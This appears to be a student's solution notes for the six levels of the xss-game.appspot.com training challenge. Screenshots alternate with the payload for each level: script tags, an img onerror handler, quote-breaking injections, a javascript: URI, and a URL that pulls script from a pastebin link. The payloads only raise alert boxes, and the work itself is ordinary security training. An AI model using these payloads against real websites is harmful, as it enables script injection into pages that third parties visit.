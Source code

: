# xss-game.appspot.com

![](../.gitbook/assets/image%20%28256%29.png)

 &lt;script&gt;alert\('test'\);&lt;/script&gt;

![](https://telegra.ph/file/7e09bb5bce9c983973c96.png)

&lt;IMG SRC=/ onerror="alert\(паставтезочет\)"&gt;&lt;/img&gt;

![](https://telegra.ph/file/4f23b981797f19de9a853.png)

frame\#1'/&gt;'window.location='&lt;script&gt;alert\('POSTAVTE ZACHET'\);&lt;/script&gt;

![](https://telegra.ph/file/56195fb04355e144048e7.png)

timer=69'\) \|\| alert \('zachetplease

![](https://telegra.ph/file/8b03318ddbe7c8eb2f740.png)

signup?next=javascript:alert\('pfff'\)

![](https://telegra.ph/file/2d7a03cf31cfb09164930.png)

[https://xss-game.appspot.com/level6/frame\#Https://pastebin.com/raw/dhZT7Ubw](https://xss-game.appspot.com/level6/frame#Https://pastebin.com/raw/dhZT7Ubw)

![](https://telegra.ph/file/d03be6f3780679b49873f.png)

